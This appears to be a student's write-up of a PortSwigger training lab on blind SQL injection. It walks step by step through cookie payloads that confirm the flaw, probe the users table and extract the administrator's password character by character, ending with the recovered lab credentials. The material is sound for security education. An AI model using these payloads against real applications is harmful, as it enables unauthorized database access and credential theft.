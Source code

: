 # Lab: Blind SQL injection with conditional responses

## Lab's description

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![]()

Here is my cookie: `wflhKe4JqJmhwH9j`. Send this to Repeater and I will change it to `wflhKe4JqJmhwH9j' and '1'='1`

The `Welcome back` message appears in the response. But if I change it to `wflhKe4JqJmhwH9j' and '1'='2`

The `Welcome back` message does not appear in the response.

Next step, we need to confirm that the database has table named `users`.

`wflhKe4JqJmhwH9j' and (select 'a' from users limit 1) = 'a`

We can see the message `Welcome back` that means it works. Now we gonna see if the username `administrator` exits or not.

`wflhKe4JqJmhwH9j' and (select 'a' from users where username = 'administrator') = 'a`

We can see the message `Welcome back` so it works. Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`wflhKe4JqJmhwH9j' and (select 'a' from users where username = 'administrator' and length(password) > 1) = 'a`

![]()

![]()

We can see the length is different, because it does not respond the `Welcome back` message.

After that, we will discover character-by-character for the password.

`wflhKe4JqJmhwH9j' and (select substring(password,1,1) from users where username = 'administrator') = 'a`
 
![]()

![]()

![]()

After half hour, I got this:

`Username: administrator`

`Password: 0ywsbb0jakvcasgvzwsr`

**Source:** [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses)
